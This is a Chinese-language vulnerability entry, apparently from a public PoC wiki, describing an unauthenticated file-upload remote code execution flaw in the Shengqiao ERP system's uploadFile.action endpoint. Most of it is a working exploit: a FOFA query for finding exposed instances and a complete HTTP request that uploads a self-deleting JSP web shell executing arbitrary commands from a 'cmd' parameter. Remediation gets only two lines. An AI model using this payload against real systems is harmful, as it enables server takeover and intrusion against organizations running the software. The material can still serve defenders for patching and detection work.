


---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 圣乔ERP系统 uploadFile.action 文件上传致RCE漏洞

# 漏洞描述

圣乔ERP系统 uploadFile.action 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

圣乔ERP系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="圣乔-ERP系统"

POC/EXP：

POST /erp/wap/../uploadFile.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Content-Type: multipart/form-data boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip
Connection: close

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="Filedata"; filename="rce.jsp"
Content-Type: image/png

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--

# 漏洞修复

关闭互联网暴露面或接口设置访问控制

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
